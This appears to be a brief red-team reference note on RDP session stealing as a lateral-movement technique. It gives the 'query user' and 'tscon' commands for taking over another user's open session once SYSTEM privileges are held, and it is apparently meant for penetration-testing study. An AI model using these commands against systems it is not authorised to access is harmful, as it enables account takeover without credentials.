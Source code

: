 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - living-off-the-land
  - "#T1021-001"
  - network-protocols
  - rdp
  - windows
---
```

# Living off the Land

## Session Stealing

TODO: Fill the rest of conditions

> [!IMPORTANT] Conditions
> - With `NT AUTHORITY\SYSTEM` privileges you can access any **open RDP** session by any user without the credentials.


List active user sessions

```
C:\> query user
```

Steal user session to authenticate the machine remotely

```
C:\> tscon <id> /dest:<session_name>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/0xA - Users/Manual/Living off the Land|Enumeration and Discovery: Users]]

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)